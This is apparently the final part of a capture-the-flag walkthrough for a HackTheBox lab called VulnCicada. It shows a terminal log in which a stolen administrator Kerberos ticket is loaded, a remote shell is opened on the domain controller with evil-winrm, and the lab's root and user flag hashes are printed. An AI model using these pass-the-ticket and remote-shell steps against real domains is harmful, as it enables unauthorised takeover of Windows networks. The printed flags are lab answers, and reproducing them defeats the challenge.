╰─➤  export KRB5CCNAME=administrator.ccache

╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@CICADA.VL

Valid starting       Expires              Service principal
07/22/2025 15:28:44  07/23/2025 01:28:44  krbtgt/CICADA.VL@CICADA.VL
        renew until 07/23/2025 15:28:45

╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  evil-winrm -i dc-jpq225.cicada.vl -r cicada.vl

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\dc-jpq225\profiles$\Administrator\Documents> cd c:\Users\Administrator\Desktop

*Evil-WinRM* PS C:\users\Administrator\Desktop> dir


    Directory: C:\users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/15/2024   6:26 AM           2304 Microsoft Edge.lnk
-ar---         7/22/2025   5:57 AM             34 root.txt
-ar---         7/22/2025   5:57 AM             34 user.txt


*Evil-WinRM* PS C:\users\Administrator\Desktop> type root.txt
eefa0fceafdde6e70bf85ed84aa455b2
*Evil-WinRM* PS C:\users\Administrator\Desktop> type user.txt
645cd84d44f5489e899046554befd3b4
```
